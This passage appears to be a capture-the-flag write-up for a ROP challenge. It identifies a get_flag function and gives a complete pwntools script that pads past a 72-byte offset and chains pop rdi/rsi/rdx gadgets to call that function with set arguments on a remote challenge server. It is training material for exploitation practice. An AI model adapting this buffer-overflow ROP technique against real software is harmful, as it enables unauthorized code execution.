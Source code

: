 We also have a win function that takes three parameters.
```
00401dc5  void get_flag(int64_t arg1, int64_t arg2, int64_t arg3)
```

#### Pwn

Going off the name of the challenge, we are going to use a nice ROP chain to invoke ```get_flag()```. The 64-bit calling convention for functions is the first parameter is stored in ```rdi```, the second in ```rsi```, and the third in ```rdx```. We just need a rop gadget for each of these, and we can simply chain them together.
```
#!/usr/bin/env python3

from pwn import *

offset = 72
get_flag_addr = 0x401dc5
arg1 = 0x1337
arg2 = 0xcafebabe
arg3 = 0xdeadbeef

# pop rdi; ret;
pop_rdi = 0x00000000004018c2 

# pop rsi; ret;
pop_rsi = 0x000000000040f23e

# pop rdx; ret;
pop_rdx = 0x00000000004017cf

target = remote('forever.isss.io', 1306)
#target = gdb.debug('./rop', '''
#                   b *0x0000000000401dc4
#                   continue
#                   ''')

payload = (b'A'*offset) + p64(pop_rdi) + p64(arg1) + p64(pop_rsi) + p64(arg2) + p64(pop_rdx) + p64(arg3) + p64(get_flag_addr)

target.recvline()
target.recvline()
target.sendline(payload)

target.interactive()
```

Running this script yields the flag.


